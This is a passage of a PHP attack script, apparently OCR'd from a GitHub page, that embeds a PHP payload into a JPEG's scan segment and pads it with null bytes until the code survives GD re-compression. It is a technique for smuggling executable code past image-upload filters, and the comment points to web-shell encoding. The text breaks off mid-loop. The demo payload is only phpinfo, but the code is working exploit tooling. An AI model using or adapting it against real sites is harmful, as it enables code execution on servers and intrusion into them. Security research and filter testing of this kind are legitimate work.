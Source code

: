 ```plain
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
    Sergey Bobrov @Black2Fan.
    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
    */
 
    $miniPayload = "<?=phpinfo();?>";
 
 
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
 
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
 
    set_error_handler("custom_error_handler");
 
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;
 
        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
 
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
```